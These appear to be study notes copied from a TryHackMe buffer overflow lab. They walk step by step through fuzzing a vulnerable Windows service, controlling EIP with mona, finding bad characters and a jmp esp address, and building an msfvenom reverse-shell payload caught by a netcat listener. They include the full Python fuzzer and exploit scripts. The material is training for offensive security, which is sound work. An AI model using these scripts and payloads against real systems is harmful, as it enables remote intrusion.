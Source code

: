 ### REFERENCE - Notes copied THM Buffer overflow room - https://tryhackme.com/room/bufferoverflowprep

Also look at this too
https://github.com/3isenHeiM/OSCP-BoF

### Mona Configuration

> The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:
````
!mona config -set workingfolder c:\mona\%p
````
### Fuzzing
> Create a file on your Kali box called fuzzer.py with the following contents:
````
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
````

> Run the fuzzer.py script using python: python fuzzer.py

> The fuzzer will send increasingly long strings comprised of As (up to 3000). If the fuzzer crashes the server with one of the strings, you should see an error like: "Could not connect to MACHINE_IP:1337". Make a note of the largest number of bytes that were sent.

#### Crash Replication & Controlling EIP

> Create another file on your Kali box called exploit.py with the following contents:
````
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
````

> Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the -l value to this):
````
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
````

> Copy the output and place it into the payload variable of the exploit.py script.

> On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

> On Kali, run the modified exploit.py script: python exploit.py

> The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:

````
!mona findmsp -distance 600
````
> Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).

> In this output you should see a line which states:
````
EIP contains normal pattern : ... (offset XXXX)
````
> Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

> Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

#### Finding Bad Characters

> Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).
````
!mona bytearray -b "\x00"
````
> Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:
````
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
````
> Update your exploit.py script and set the payload variable to the string of bad chars the script generates.

> Restart oscp.exe in Immunity and run the modified exploit.py script again. Make a note of the address to which the ESP register points and use it in the following mona command:
````
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
````
> A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

> Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

> The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with \x00. Then update the payload variable in your exploit.py script and remove the new badchars as well.

> Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

#### Finding a Jump Point

> With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):
````
!mona jmp -r esp -cpb "\x00"
````
> This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

> Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

#### Generate Payload

> Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):
````
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
````
> Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.

#### Prepend NOPs

> Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:
````
padding = "\x90" * 16

````
> Exploit!

> With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

> Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).

> Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!
